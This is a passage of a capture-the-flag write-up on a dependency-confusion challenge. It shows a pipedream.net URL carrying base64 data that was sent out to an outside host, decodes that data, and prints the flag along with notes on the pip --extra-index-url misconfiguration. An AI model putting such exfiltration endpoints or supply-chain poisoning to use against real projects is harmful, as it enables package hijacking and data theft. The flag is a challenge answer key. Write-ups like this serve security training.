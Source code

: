 URL: `https://ene63d9dv33i6ch.m.pipedream.net/?answer=VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs%0AIGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo%0AdHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2%0AMGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw%0AcGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f%0AeERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt%0Ab3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z%0AIG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug%0AYXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz%0AIGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg%0ALS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91%0AIGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl%0AZC4=%0A`

Now, when I take the answer's value and I decode it in a base64 decoding tool, I can see the following output: [https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true)](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true))

<p align="center">
<img src="resources/misc-884-hack_the_empire/12.PNG"/>
</p>

Output:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

So, the flag is: `Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`.
